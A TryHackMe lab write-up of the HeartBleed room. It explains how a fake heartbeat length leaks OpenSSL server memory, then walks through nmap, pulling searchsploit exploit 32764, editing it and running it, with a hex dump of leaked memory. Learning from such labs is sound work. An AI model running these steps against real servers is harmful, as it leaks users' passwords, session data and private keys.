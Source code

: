 # THM: HeartBleed

| Stat       | Value                                        |
| ---------- | -------------------------------------------- |
| Image      | <img src="/images/write_ups/try_hack_me/heartbleed/heartbleed.png" alt="HeartBleed" width="90"/> |
| Room       | HeartBleed                                   |
| URL        | https://tryhackme.com/room/heartbleed        |
| Difficulty | Easy                                         |

## Concepts/Tools Used

- Python
- [searchsploit](/tools/searchsploit.md)

## Description

SSL issues are still lurking in the wild! Can you exploit this web servers OpenSSL?

## Process

This room has 2 parts. The first is information about the HeartBleed bug and what is causing it. The room provides a high level summary of how the bug can exploit memory on the server. There are a few external links that give more information and explain how this is a massive vulnerablity. The 2nd task wants you to exploit HeartBleed on a server to get the flag.

## Task 1 Background Information

I spent a lot of time reading the material and trying to understand the bug. I had to look up more information and I thought I would just provide some additional insights into what is needed to exploit this vulnerability.

It is obvious that this exploit needs SSL or TLS. Since TLS is the successor of SSL and SSLv3 is totally broken I will just talk about using TLS for an https connection in this room.

In order to perform the heartbeat request (the request that causes the HeartBleed attack), you need to have a connection with the server. Below are the minimum requests and responses for a HeartBleed attack.

| Step | Description | Who sends it |
| ---- | ----------- | ------------ |
| 1. | **ClientHello** handshake connection request | **Attacker -> Server** |
| 2. | **ServerHello** (plus cert, etc.) handshake connection response | **Server -> Attacker** |
| 3. | **(TLS Handshake completes)** - now both sides can send encrypted data |  |
| 4. | **Heartbeat** request with **fake large payload length** | **Attacker -> Server** |
| 5. | **Heartbeat** response leaking memory past intended payload | **Server -> Attacker** |

Steps 4 and 5 are at the heart (no pun intended) of this room.

### How the request and response should work

It turns out that a heartbeat request is very simple. The 2 properties that matter are the content and the length of the content. So I send a heartbeat request with these 2 properties to a server:

Content: 'Hello'
Content-Length: 5

The server is suppose to look at the Content-Length property and create a buffer of that length in memory. Then it copies the text in the Content property into that buffer that it just created. Then it copys that buffer into a response and sends the response back to me so that our TLS connection stays alive.

### How HeartBleed works

This vulnerability exists because it trusted user input. In my example above I said that my Content-Length was 5 bytes. But what if I had the same Content and I said that my Content-Length was 65,535 bytes?

This is where the vulnerability lives. The software doesn't check the length of the data in my Content property of the request. it just blindly trusts that I am sending the correct Content-Length for the data in my Content property.

In this case, the server will allocate a 65,535 byte buffer in memory. Keep in mind that deallocated memory still has the values that were in those addresses when the memory was allocated. Then it will copy over the 5 bytes in my Content property. Then it will read all the bytes from the buffer (all 65,535 of them) and copy them to the response that goes back to me.

So now I have all kinds of things that were in memory when I made my request. It turns out that this can be usernames, passwords, sensitive chat logs and emails, environment variables, secret keys for X.509 certificates, critical business documents and more.

As a side note, this was patched by examining the length of the actual content in the request. If that was less than the value in the Content-Length field, it only copied the smaller amount. 

## Task 2 Protecting Data In Transit

I added the ip address of the machine to my host file with the alias of target.thm. So the command was:

```bash
$ echo "10.10.121.123   target.thm" >> /etc/hosts
```

I then ran my usual starting nmap command on this machine:

```bash
$ nmap -p- -Pn -T5 -v target.thm
```

Port 443 is up. I didn't bother with the other ports. I knew I needed to exploit the https connection on the box.

I used searchsploit to see if it had a script ready to go. I ran the following:

```bash
$ searchsploit heartbleed
```

It had a few scripts, they were a bit out of date. I expected it since HeartBleed is now a decade old at the time of this writing.

I copied over the first one that was provided by searchsploit to my current directory witht the following command:

```bash
$ searchsploit 32764 -m
```

The `-m` option moves the script to my current directory. 32764 is the exploit id in searchsploit.

I had to comment out 1 line to get this to work. Line 32 is the issue, I changed it from this:

`version.append(['SSL 3.0','03 00'])`

To this:

`#version.append(['SSL 3.0','03 00'])`

Again, SSLv3 is broken and so most servers do not support it. Commenting it out allows the script to try the 3 TLS methods.

I now run the script with python2 (the print calls don't have brackets and that only works with python2). Here is how I run it:

```bash
$ python 32764.py target.thm -p 443 > output.txt
```

Looking through the output.txt file, I see the flag on the right hand side as I scroll down. Here is the output with the key redacted:

```bash
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 6E 67 74 68  ....#.......ngth
  00e0: 3A 20 37 35 0D 0A 43 6F 6E 74 65 6E 74 2D 54 79  : 75..Content-Ty
  00f0: 70 65 3A 20 61 70 70 6C 69 63 61 74 69 6F 6E 2F  pe: application/
  0100: 78 2D 77 77 77 2D 66 6F 72 6D 2D 75 72 6C 65 6E  x-www-form-urlen
  0110: 63 6F 64 65 64 0D 0A 0D 0A 75 73 65 72 5F 6E 61  coded....user_na
  0120: 6D 65 3D 68 61 63 6B 65 72 31 30 31 26 75 73 65  me=hacker101&use
  0130: 72 5F 65 6D 61 69 6C 3D 68 61 78 6F 72 40 68 61  r_email=haxor@ha
  0140: 78 6F 72 2E 63 6F 6D 26 75 73 65 72 5F 6D 65 73  xor.com&user_mes
  0150: 73 61 67 65 3D 54 48 4D 7B 00 00 00 00 00 00 00  sage=THM{#######
  0160: 00 00 00 7D AF 7B 00 28 AF 84 87 27 59 A9 CF EB  ###}.{.(...'Y...
  0170: 74 86 D3 07 00 00 00 00 00 00 00 00 00 00 00 00  t...............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
'''

